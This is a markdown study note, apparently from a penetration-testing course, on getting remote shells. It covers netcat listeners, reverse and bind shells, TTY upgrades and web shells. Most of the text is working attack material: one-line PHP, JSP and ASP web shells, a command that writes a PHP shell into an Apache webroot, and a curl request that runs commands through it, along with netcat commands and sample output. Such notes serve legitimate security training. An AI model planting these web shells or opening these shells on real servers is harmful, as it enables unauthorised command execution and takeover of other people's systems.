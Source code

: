 ### Reverse Shell
* Most common type of shell
	* Quick and easy
* Use netcat to listen for the connection coming from the victim

#### Netcat Listener
* Start `netcat` listener on a port of our choosing

```bash
# -l Listen mode, to wait for a connection to connect to us.
# -v Verbose mode, so that we know when we receive a connection.
# -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
# -p 1234 Port number `netcat` is listening on, and the reverse connection should be sent to.
$ nc -lvnp 1234

listening on [any] 1234 ...
```

#### Reverse Shell Command
* Command depends on host OS
* Connection comes from the victim to us
* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has a list of reverse shells or different use cases
* Used when we want a quick reliable connection
* However reverse shells are very fragile when losing the connection or canceling a command

```bash
$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Bind Shell
* Like a reverse shell, but we have to connect to the targets' listening port

```bash
$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Unlike a reverse shell, we drop the connection, we can just connect back via netcat
* However if the remote host reboots or the connection is stopped or any reason we lose our access

#### Upgrading TTY
* Multiple methods

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$
```

* Further, upgrade the shell to enable all features just like an SSH connection

```bash
# In a new terminal window
$ echo $TERM
xterm-256color
$ stty size
67 318

# Back in netcat
$ export TERM=xterm-256color
$ stty rows 67 columns 318
```

#### Web Shell
* Typically a web script i.e `php` or `ASPX` that accepts our command trough HTTP requests
	* `GET` or `POST`
	* Prints output back to web page
*  Common shell scripts

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell
* Place the script into the remote host's directory (webroot)

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | C:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |

* Apache example

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell
* We can open the file via a browser o `cURL`
* We provide our commands via the get parameter `?cmd=`

```bash
$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

